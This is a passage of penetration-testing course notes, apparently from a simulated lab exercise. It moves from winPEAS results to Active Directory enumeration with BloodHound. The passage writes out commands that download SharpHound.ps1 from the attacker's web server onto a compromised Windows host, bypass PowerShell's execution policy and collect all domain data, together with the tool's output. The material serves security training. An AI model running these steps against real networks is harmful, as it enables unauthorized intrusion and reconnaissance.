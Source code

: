 Reviewing the rest of the winPEAS results, we don't find any actionable information to attempt a potential privilege escalation attack
+ However, we should remind ourselves that we are in a simulated penetration test and not in a CTF lab environment
+ Therefore, it is not necessary to get administrative privileges on every machine
+ While we skipped over most of the winPEAS results, we should examine the results thoroughly as we would in a real penetration test
	+ After the local enumeration of the system, we should have obtained key pieces of information, which we listed in the _Situational Awareness_ section of the _Windows Privilege Escalation_ Module

Since we haven't identified a privilege escalation vector via winPEAS and there is nothing else actionable on the system, such as a Password Manager, let's start enumerating the AD environment and its objects
+ We learned several techniques in this course to perform this kind of enumeration
+ For this Module, we'll use _BloodHound_ with the _SharpHound.ps1_ collector, which we discussed in the _Active Directory Introduction and Enumeration_ Module

First, we'll copy the PowerShell collector to **/home/kali/beyond** in a new terminal tab to serve it via the Python3 web server on port 8000
```
kali@kali:~/beyond$ cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
```

Since our Python3 web server is still running on port 8000, we can download the PowerShell script on the target machine and import it in a newly spawned PowerShell session with the ExecutionPolicy set to **Bypass**
```
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\marcus> . .\SharpHound.ps1
. .\SharpHound.ps1
```

Now, we can execute **Invoke-BloodHound** by providing **All** to **-CollectionMethod** to invoke all available collection methods
```
PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All
2022-10-10T07:24:34.3593616-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2022-10-10T07:24:34.5781410-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-10-10T07:24:34.5937984-07:00|INFORMATION|Initializing SharpHound at 7:24 AM on 10/10/2022
2022-10-10T07:24:35.0781142-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-10-10T07:24:35.3281888-07:00|INFORMATION|Beginning LDAP search for beyond.com
2022-10-10T07:24:35.3906114-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-10-10T07:24:35.3906114-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-10-10T07:25:06.1421842-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 92 MB RAM
2022-10-10T07:25:21.6307386-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2022-10-10T07:25:21.6932468-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2022-10-10T07:25:21.8338601-07:00|INFORMATION|Status: 98 objects finished (+98 2.130435)/s -- Using 103 MB RAM
2022-10-10T07:25:21.8338601-07:00|INFORMATION|Enumeration finished in 00:00:46.5180822
2022-10-10T07:25:21.9414294-07:00|INFORMATION|Saving cache with stats: 57 ID to type mappings.
 58 name to SID mappings.
```